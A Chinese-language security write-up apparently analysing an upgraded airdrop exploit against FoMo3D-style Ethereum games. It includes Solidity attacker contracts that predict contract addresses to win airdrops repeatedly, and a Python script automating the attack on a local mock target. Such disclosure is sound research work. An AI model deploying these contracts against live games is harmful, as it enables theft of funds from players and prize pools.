






# 类FoMo3D空投漏洞之循环攻击
## 零、前言
前一段时间我们针对类fomo3d游戏做了简单的介绍，披露了类fomo3d游戏中的空投漏洞，并对漏洞以及攻击代码做了复现。随着进一步的研究，我们发现攻击者升级了攻击方法，该攻击方法比之前的攻击方法更有效。通过获得特殊的合约地址，能多次获得空投奖励。

## 一、前情简介
在类fomo3d游戏中每一次投入金额超过0.1ETH(这个具体数值不同的类fomo3d游戏可能不同)便有几率获得一次空投奖励,游戏通过下面这个`airdrop()`函数判断是否能获得空投奖励。


```
contnract Fomo3Dlong {
...... 
    function airdrop()
        private 
        view 
        returns(bool)
    {
        uint256 seed = uint256(keccak256(abi.encodePacked(
            
            (block.timestamp).add
            (block.difficulty).add
            ((uint256(keccak256(abi.encodePacked(block.coinbase)))) / (now)).add
            (block.gaslimit).add
            ((uint256(keccak256(abi.encodePacked(msg.sender)))) / (now)).add
            (block.number)
            
        )));
        if((seed - ((seed / 1000) * 1000)) < airDropTracker_)
            return(true);
        else
            return(false);
    }
......
}
```

```
contract Fomo3Dlong {
......
   function core(uint256 _rID, uint256 _pID, uint256 _eth, uint256 _affID, uint256 _team, F3Ddatasets.EventReturns memory _eventData_)
        private
    {
	......
            // manage airdrops
            if (_eth >= 100000000000000000)
            {
            airDropTracker_++;
            if (airdrop() == true)
            {
				......
                // reset air drop tracker
                airDropTracker_ = 0;
            }
            }
     }
......
}

```

空投机制有些类似于挖矿，将交易发送者的地址和区块的一些信息放在一起做一些运算，计算出`seed`(与购买的seed无关)，如果`seed`对1000求余后小于`airDropTracker_`,那么就满足获得空投的条件，那么获得空投的概率相当于是千分之`airDropTrakcer_`,每笔金额超过0.1ETH的购买`seed`的交易会使`airDropTracker_`自增，从而增大后面玩家获得空投的概率，而若有玩家获得空投，则将`airDropTracker_`归零，重置获得空投的概率。

我们上一篇文章谈到，有一些骇客通过部署智能合约可以提前获知自己能否获得空投，能够做到每笔购买seed的交易都获得空投，不少骇客从中获利良多。随着8月22号fomo3d第一轮游戏因DoS攻击结束，这类游戏的活跃程度大不如前，但是瘦死的骆驼比马大，那些骇客仍然在不断的更新攻击合约，以期缩减攻击成本，获得更多利润，本文接下来就详细地介绍一下升级之后的攻击方法。

## 二、循环攻击
### 2.0 现场还原

[0x157cdcd345ad99b54b67a0568eeaf82ae216bfe42c2a7070ec96295793e4613e](https://etherscan.io/tx/0x157cdcd345ad99b54b67a0568eeaf82ae216bfe42c2a7070ec96295793e4613e) 


我们还是先从一笔真实的交易开始，上面这笔交易有着超长的内部交易列表，仔细分析之后，发现它的前面部分和我们上一篇文章中分析的漏洞利用过程如出一辙，通过一个manager来选择一个满足要求的proxy_n,然后proxy_n再去部署`final_call`, `final_call`的`construcotr`中包含了向类fomo3d游戏购买seed的逻辑，这笔交易的攻击对象是Last Winner, 这款游戏由于将空投奖池的占比从FoMo3D的1%提高到了10%，所以获得骇客的青睐也是情有可原。这笔交易和我们上一篇文章中分析的攻击手段不同的地方在于它的`final_call`连续购买多次seed，反复的获取空投，最后快没有利润的时候才停手自毁将eth转回攻击者。

我们仔细的去研究了一下[Last Winner 的规则](http://lastwinner.me/guide.html) ,发现它不仅改了空投池的占比，而且将每笔购买金额在0.1~1ETH的交易所获得的空投奖励比例下降为10%。
 

考虑到solidity除法截断的误差，我们计算出的每一比空投奖励数值基本上与这笔交易是吻合的。那么问题来了，根据类FoMo3D游戏的规则，一旦有人获得了空投，`airDropTracker_`将会归零，骇客为什么能在一笔交易中反复的获得空投？我们回过头又仔细看了一下FoMo3D的源码，发现原来`airDropTracker_`自增发生在判定空投`airdrop()`的前面，也就是说`airDropTracker_`归零之后下一玩家只要购买金额超过0.1ETH仍然有千分之一的几率获得空投奖励。这样看来这笔交易中的`final_call`是一个满足了更加苛刻的条件的临时合约，即用`final_call`的地址计算出来的`seed`必须是0, 1000, 2000等一千的整数倍(或零倍)，我们接下来在之前的代码的基础上做一些修改来复现一下该过程。


### 2.1 攻击复现

```
contract final_call_infinite {

    constructor(address attackee) payable public {
        for (uint8 i = 0; i < 10; i++) {

            if (attackee.call.value(1000000000000000)(abi.encode(bytes4(keccak256("can_i_jump()")))) == false) {
                revert();

            }
        }
    }
}
contract proxy {

	function attack(address attackee) public payable {
		(new final_call).value(100000000000000000)(attackee);
	}

    function attack_infinite(address attackee) public payable {

        (new final_call_infinite).value(100000000000000000)(attackee);
    }
}
```

首先增加一个`final_call_infinite`的临时合约，使其可以循环的发起攻击，然后在合约`proxy`下增加一个`attack_infinite()`函数用于创建`final_call_infinite`合约。

```
contract manager {
......
	address[] private _proxy = new address[](1000);
	uint[] private _nonce = new uint[](1000);
......
	function attack(address attackee, uint airDropTracker_) isMe public payable {
		for (uint64 i = 0; i < 1000; i++) {

			address proxy_address = _proxy[i];
			uint proxy_nonce = _nonce[i] + 1;
            if (fake_airdrop(count_next_address(proxy_address, proxy_nonce), 1)) {
                if (proxy_address.call.value(100000000000000000)(abi.encodeWithSelector(bytes4(keccak256("attack_infinite(address)")), attackee)) == false) {
                    revert();
                }
                _nonce[i] ++;

                return;
            }
		}

        for (uint64 i = 0; i < 1000; i++) {

            address proxy_address = _proxy[i];
            uint proxy_nonce = _nonce[i] + 1;
            if (fake_airdrop(count_next_address(proxy_address, proxy_nonce), airDropTracker_)) {
                if (proxy_address.call.value(100000000000000000)(abi.encodeWithSelector(bytes4(keccak256("attack(address)")), attackee)) == false) {
                    // These code will not be executed, even though call fail.
                    revert();
                }
                _nonce[i] ++;

                return;
            }
        }
	}
......
}
```

由于这次的筛选要求非常苛刻，所以我们将proxy的数组扩大到1000， 增多备选的proxy; 然后我们修改了manager的`attack()`函数，让其优先寻找满足`fake_airdrop(count_next_address(proxy_address, proxy_nonce), 1))` 的proxy。

```
contract Airdrop{
......
    function can_i_jump() public payable {

        airDropTracker_ ++;
    	if (_airdrop()) {
    		jump_time ++;
    		emit record(msg.sender, jump_times, airDropTracker_);

            airDropTracker_ = 0;
    	} else {

    		emit record(msg.sender, jump_times, airDropTracker_);
    	}
    }
......
}
```

我们也略微修改了靶子的代码，将`is_jump` 改成`jump_time`来计算靶子一次交易中被攻击了几次，然后还增加了`airDropTracker_`自增和归零的逻辑，并将`airDropTracker_`加入了event记录起来。
由于这次的攻击偶然性很大，可能需要多次的试探，所以我们通过脚本实现自动的重复攻击，下面的是脚本主要的逻辑。

```
def main():
	print("mining...")
	args = get_arguments()
	w3 = connect_to_blockchain_through_ipc(args.ipc_path)
	w3.miner.start(10)
	print("Now, let's deploy attacker contract")
	attacker = deploy_contract_on_blockchain(w3, get_bytecode(args.attacker_contract_source_path, args.attacker_main_contract), args.from_address_seq, args.value, args.gas_limit)
	print("Now, let's deploy target contract")
	target = deploy_contract_on_blockchain(w3, get_bytecode(args.target_contract_source_path, args.target_main_contract), args.from_address_seq, args.value, args.gas_limit)
	initialization(w3, args.from_address_seq, attacker, args.gas_limit)
	tx_hash = attack(w3, args.from_address_seq, attacker, target, args.gas_limit)
	print("The final transaction hash is " +  tx_hash)
	w3.miner.stop()
	print("mining stop")
	
	
def attack(w3, from_address_seq, attacker, target, gas_limit):

	print("Now, let's attack the target\n ")

	attack_time = 1
	while get_jump_time(w3, from_address_seq, target) <= 1:
		print("Reset, let's start the number " + str(attack_time) + "th attack")
		txhash1 = reset(w3, from_address_seq, target)
		is_valid(w3, txhash1)
		txhash2 = call_attack(w3, from_address_seq, attacker, target, gas_limit)
		is_valid(w3, txhash2)
		attack_time += 1

	print("Success!")
	return txhash2


def initialization(w3, from_address_seq, attacker, gas_limit):

	initialization_fs = "0xf73baf62"

	print("Now, let's initialize the one thousand proxy contract")
	for i in range(100):
		print(str(i) + "th initialization")
		txhash = "0x" + binascii.hexlify(w3.personal.sendTransaction({'from': w3.eth.accounts[from_address_seq], 'to': attacker, 'data': initialization_fs, 'gas': gas_limit}, " ")).decode()
		#is_valid(w3, txhash)

	is_valid(w3, txhash)

	seq = get_seq(w3, from_address_seq, attacker)
	if seq < 1000:
		print("mining stop")
		w3.miner.stop()
		raise Exception("The number of proxy must be 1000 intead of %d" % seq)


```

首先部署合约manager 和 target ， 然后调用100次manager的`proxy_initialization` 初始化1000个proxy合约，然后就开始反复的对target发起攻击，若`jump_time` <= 1说明没有成功地创建合约`final_call_infinite`进行攻击，否则成功。下面我们看具体的攻击流程

 

比较幸运，仅攻击了一次就成功了，我们来看一下这笔交易的receipt。

 
 
 

几个event完整的将攻击过程记录在了log中，大约是第224个proxy合约通过了`fakeairdrop(nextaddress, 1)`，然后部署出`final_call_infinite`向target发起攻击，第一次`airDropTracker_`是101，之后九次都是1，而`jump_time`也从0增长到了10，复现成功。

### 2.2 小结
升级版的空投攻击在原理上与之前的并没有任何不同，只是做了些许优化，但是确实大大缩减了成本，付一笔交易的gas效果相当于之前的十几笔。也反映了这些骇客攻击手段正在不断地进步。
